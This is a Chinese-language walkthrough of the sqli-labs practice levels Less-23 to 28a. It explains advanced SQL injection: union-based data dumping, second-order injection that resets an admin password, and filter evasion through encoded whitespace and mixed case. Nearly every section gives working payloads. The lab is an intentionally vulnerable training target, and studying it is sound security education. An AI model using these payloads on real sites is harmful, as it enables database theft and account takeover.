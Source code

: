 # 十二、第二部分__page-2 Advacned injection Less-23~28a

### Less-23

sql语句为 `$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; ` ，此处主要是在获取Id参数时候进行了 # -- 注释符号的过滤。

Solution: 

    ?id=-1' union select 1,@@datadir,'3
    # 此处构造payload后此时的sql语句为：
    SELECT * FROM users WHERE id='-1' union select 1,@@datadir,'3' limit 0,1
    # 此时前端输出了数据库路径，注入成功
    
讲解：
1. 首先使用id=-1，因为前端只输出一个select的数据，为了注出，一个select要没有结果，然后输出我们注出的数据，那就id=-1或者超过数据库数据都行。
2. 这里要注意的是单引号的闭合问题： `  1' union select 1,@@datadir,'3  `。
3. 此处可以进行报错注入、延时注入，可以利用 or '1'='1 进行闭合，这里不进行示例。

将@@datadir修改为其他内容，以下用联合注入方法进行。

- 获取数据库
```sql
    ?id=-1' union select 1,(select group_concat(schema_name) from  information_schema.schemata),'3
```
这里获取到所有的数据库名，从database()可以知道当前数据库为security。

- 查看数据表
```sql
    ?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),'3
```
此时会得到所有表名：emails,referers,uagents,users

- 查看表所有列
```sql
    ?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),'3
```
此时会得到该表的所有列：id,username,password

- 获取内容
```sql
    ?id=-1' union select 1,(select group_concat(username) from security.users limit 0,1),'3
```
这里会获得username列的所有内容：Dumb,Angelina,Dummy,secure,stupid...

    
### Less-24

本关为**二次排序注入**的示范例。二次排序注入也成为存储型的注入，就是将可能导致sql 注入的字符先存入到数据库中，当再次调用这个恶意构造的字符时，就可以触发sql 注入。

二次排序注入思路：
1. 黑客通过构造数据的形式，在浏览器或者其他软件中提交HTTP 数据报文请求到服务端进行处理，提交的数据报文请求中可能包含了黑客构造的SQL 语句或者命令。
2. 服务端应用程序会将黑客提交的数据信息进行存储，通常是保存在数据库中，保存的数据信息的主要作用是为应用程序执行其他功能提供原始输入数据并对客户端请求做出响应。
3. 黑客向服务端发送第二个与第一次不相同的请求数据信息。
4. 服务端接收到黑客提交的第二个请求信息后，为了处理该请求，服务端会查询数据库中已经存储的数据信息并处理，从而导致黑客在第一次请求中构造的SQL 语句或者命令在服务端环境中执行。
5. 服务端返回执行的处理结果数据信息，黑客可以通过返回的结果数据信息判断二次注入漏洞利用是否成功。

> EG: 此例子中我们的步骤是注册一个admin’#的账号，接下来登录该帐号后进行修改密码，注入修改的就是admin 的密码。

步骤演示：
1. users初始数据库为：

账号 | 密码
---- | ----
admin | 0

2.注册账号，注册账号页面填写账号：`admin'#` ，注册后数据库为：

账号 | 密码
---- | ----
admin   | 0
admin'# | 123

3. 登录admin'#，进入修改页面，修改密码为1，前端返回修改成功，此时数据库为：

账号 | 密码
---- | ----
admin   | 1
admin'# | 123

> 结论：可见，二次排序注入成功。

##### 思考——从源代码中思考为什么能注入成功？

首先在注册页面，在注册页面里有 `$username=  mysql_escape_string($_POST['username']) ;` 该语句存在，表示对username进行转义。

    # 那么执行注册的真实查重sql语句是这样的：
    select count(*) from users where username='admin\'#'

然后，在修改页面中有 `$username= $_SESSION["username"];` 该语句存在，表示username从Session获得，前端页面输入的密码均会进行 `mysql_real_escape_string()` 函数转义特殊字符。

    # 因此，这里获得后执行的真实语句是这样的：
    UPDATE users SET passwd="New_Pass" WHERE username ='admin'#' and password='$curr_pass' "; 
    
该语句引号闭合、注释都是完美的，所以能够注入成功。


### Less-25

本关卡主要为 or and 过滤。一般性提供一下几种思路：

1. 大小写变形 Or OR oR
2. 编码，hex urlencode
3. 添加注释 /* or */
4. 利用符号 and=&& or=||

本关卡示例报错payload: 

    ?id=1' || extractvalue(1,concat(0x7e,database()))--+
    

### Less-25a
    
不同于Less-25关的是sql语句没有的id进行 ' ' 处理，同时没有输出错误项，因此报错注入不能用。

其余基本上和Less-25示例没有差别，此处采用两种方式：延时注入和联合注入。

    # 示范联合注入：
    ?id=-1 union select 1,@@basedir,3--+
    # 示范or=||，这里输入limit的第一条记录
    ?id=2000 || 1=1 --+
    # 省略延时注入
    
    
### Less-26

TIPS: 本关卡在wamp下可能会存在apache解析问题，在linux则是正常。

本关卡结合Less-25，将 空格,or,and,/*,#,--,/ 等各种符号过滤。

对于 and,or 的方法同上。<br>
对于注释和结尾符此处我们只能构造闭合引号。<br>
对于空格：
1. %09 TAB键（水平）
2. %0a 新建一行
3. %0c 新的一页
4. %0d return功能
5. %0b TAB键（垂直）
6. %a0 空格

首先给出一个简单的payload: 

    ?id=2000'%0a||%0a'1'='1  => ?id=2000' or '1'='1'
    ?id=2000'%0a||'1 => ?id=2000' or '1'
    
这个理解应该不难。其他构造payload在不改变原sql基础上可以利用报错注入或延时注入等继续深层研究。

### Less-26a

本关卡与Less-26的区别在于sql语句的处理上，这里的处理是 `id=('$id')` 。因为前端不输出sql错误，所以排除报错注入。

这里示范使用union注入（注意此示范在wamp部署上是解析失败的）构造payload:

    id=2000')union%a0select%0a1,user(),('3
    # 等价于
    $sql = select * from users where id=('2000') union select 1,user(),('3') limit 0,1;

    
### Less-27

本关卡主要考察 union,select 和Less-26过滤的字符。

此处我们利用空格替换和大小写混合突破，示例payload:

    ?id=2000'unIon%a0SelEcT%a01,database(),3||'1
    # 注意后面的3||'1'会判断输出布尔值1
    

### Less-27a

本关卡与Less-27的区别在于对id处理，这里是 `"id"` ，同时mysql报错不会回显，示例payload:

    ?id=2000"%a0UnIonSElecT%a0,1,user(),"3


### Less-28

本关卡与Less-27没有太大的差距，直接给出payload:

    ?id=2000')%a0unionselect(1),(user()),(3)||('1
    # select(1),2,3; # 注意：没有空格也可以输出成功的。


### Less-28a

本关卡与Less-28基本一致，只是过滤条件少了几个。直接给出payload:

    ?id=2000%27)union%0bsElect%0b1,@@basedir,3|(%271



